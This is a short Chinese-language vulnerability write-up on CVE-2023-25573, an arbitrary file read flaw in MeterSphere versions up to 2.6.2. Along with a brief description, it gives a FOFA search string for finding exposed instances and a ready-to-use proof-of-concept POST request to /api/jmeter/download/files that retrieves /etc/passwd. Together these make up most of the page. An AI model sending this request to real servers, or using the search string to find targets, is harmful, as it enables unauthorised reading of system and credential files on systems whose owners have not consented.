

# Metersphere file 任意文件读取漏洞 CVE-2023-25573

## 漏洞描述

MeterSphere 是一站式开源持续测试平台, 涵盖测试跟踪、接口测试、UI 测试和性能测试等功能，全面兼容 JMeter、Selenium 等主流开源标准。

Metersphere file 接口存在任意文件读取漏洞，攻击者通过接口可以获取敏感文件压缩包。

## 漏洞影响

```
Metersphere <=2.6.2
```

## FOFA

```
body="Metersphere"
```

## 漏洞复现

登陆页面


验证POC

```
POST /api/jmeter/download/files
Content-Type: application/json

{"reportId":"pass","bodyFiles":[{"id":"aaa","name":"/etc/passwd"}]}
```

